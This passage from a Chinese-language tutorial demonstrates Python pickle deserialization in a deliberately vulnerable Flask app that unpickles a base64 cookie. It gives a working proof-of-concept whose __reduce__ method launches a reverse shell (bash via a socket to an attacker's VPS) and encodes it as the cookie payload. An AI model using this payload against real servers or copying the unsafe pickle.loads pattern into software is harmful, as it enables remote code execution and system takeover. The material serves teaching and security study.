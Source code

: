 ```
```

**<a class="reference-link" name="%E5%AE%9E%E6%88%98%E6%BC%94%E7%A4%BA"></a>实战演示**

Web端源码：

```
import pickle
import base64
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username

if __name__ == "__main__":
    app.run()
```

当访问 [http://your-ip:5000](http://your-ip:5000) 时，显示Hello `{`username`}`。username是取Cookie中的变量user，对其进行base64解码并进行反序列化后还原的对象中的“username”变量，默认为“Guest”。

此处便存在 Python 反序列化漏洞。因为user变量在cookie中，而cookie又是可控的，所以我们可以在cookie中给user变量写入payload，当后面对user进行反序列化时便会触发payload。

编写POC：

```
#!/usr/bin/env python3
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("你的VPS_ip地址",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return os.system, (s,)


poc = exp()
s = pickle.dumps(poc)     # s为payload，将其传送到目标题目的cookie中
s = base64.b64encode(s).decode()
print(s)
```
